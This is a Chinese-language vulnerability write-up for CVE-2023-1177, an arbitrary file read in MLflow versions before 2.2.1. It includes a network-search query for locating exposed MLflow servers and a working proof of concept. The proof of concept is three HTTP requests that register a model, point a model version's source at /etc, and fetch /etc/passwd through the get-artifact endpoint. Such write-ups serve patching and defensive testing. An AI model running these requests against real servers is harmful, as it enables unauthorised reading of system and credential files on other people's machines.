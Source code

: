 # MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

## 漏洞描述

使用 MLflow 模型注册表托管 MLflow 开源项目的用户 mlflow server或者 mlflow ui使用早于 MLflow 2.2.1 的 MLflow 版本的命令如果不限制谁可以查询其服务器（例如，通过使用云 VPC、入站请求的 IP 白名单或身份验证 /授权中间件）。

此问题仅影响运行 mlflow server和 mlflow ui命令。 不使用的集成 mlflow server或者 mlflow ui不受影响； 例如，Azure Machine Learning 上的 Databricks Managed MLflow 产品和 MLflow 不使用这些命令，并且不会以任何方式受到这些漏洞的影响。

## 漏洞影响

<a-checkbox checked>MLflow < 2.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app.name="MLflow"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680785392550-723bb58a-8fb1-49ca-afd7-9faa9841b7ca.png)

验证POC

```plain
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680785555309-bc13e99b-784d-46aa-9b93-b3ca28ff457e.png)

```plain
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680785596505-b26cf5f7-10c6-4202-83f7-d5ccd71a797f.png)

```plain
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680785731521-49f79166-61c1-4e98-9cef-461227256df9.png)
